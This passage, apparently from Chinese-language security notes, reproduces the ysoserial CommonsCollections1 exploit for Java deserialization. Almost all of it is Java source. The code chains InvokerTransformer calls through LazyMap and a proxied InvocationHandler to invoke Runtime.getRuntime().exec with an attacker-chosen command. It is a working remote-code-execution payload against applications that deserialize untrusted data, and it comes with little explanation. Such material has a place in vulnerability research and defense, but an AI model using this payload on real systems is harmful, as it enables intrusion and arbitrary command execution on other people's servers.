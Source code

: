 这边就直接贴`yso`​的`exp`​了

```java
public class CommonsCollections1 extends PayloadRunner implements ObjectPayload<InvocationHandler> {

	public InvocationHandler getObject(final String command) throws Exception {
		final String[] execArgs = new String[] { command };
		// inert chain for setup
		final Transformer transformerChain = new ChainedTransformer(
			new Transformer[]{ new ConstantTransformer(1) });
		// real chain for after setup
		final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };

		final Map innerMap = new HashMap();

		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

		final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

		final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

		Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

		return handler;
	}

	public static void main(final String[] args) throws Exception {
		PayloadRunner.run(CommonsCollections1.class, args);
	}

	public static boolean isApplicableJavaVersion() {
        return JavaVersion.isAnnInvHUniversalMethodImpl();
    }
}
```

‍

‍

‍
